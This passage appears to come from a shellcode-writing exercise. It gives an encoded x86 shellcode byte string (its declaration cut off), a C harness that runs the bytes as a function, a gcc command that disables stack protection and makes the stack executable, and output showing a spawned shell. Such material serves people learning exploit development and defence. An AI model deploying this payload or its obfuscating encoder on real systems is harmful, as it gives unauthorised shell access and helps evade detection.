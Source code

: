 ```
"\xbb\xfb\xe7\xb6\xfd\x53\x31\xd2\x52\x5a\x5b\xeb\x3d\x5f\x31\xc9\x39\xca\x74\x22\x31\xc9\xb1\x0c\x53\x52\x89\xd6\x0f\xaf\xf1\xc1\xe6\x02\x01\xfe\x89\xcb\x80\xeb\x01\xc1\xe3\x02\x8b\x14\x1e\x89\x14\x1f\xe2\xf0\x5a\x5b\x31\xc9\xb1\x0c\x31\x5c\x8f\xfc\xe2\xfa\x03\x1f\x53\x42\x52\xe8\x05\x00\x00\x00\xe8\xbe\xff\xff\xff\xca\x27\xe6\x95\xd4\xc8\xc5\x95\x93\xc8\xd4\x94\x95\x6e\x55\xad\x72\x05\xe5\x74\x1a\x57\xbd\x30\x7b\x77\x26\x6d";
void main()
{
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

And compiling with

```
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

## Proof of execution

Once executed the shellcode leads to the following

```
$ ./shellcode 
Shellcode Length:  71
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),110(sambashare),999(admin)
$ 
```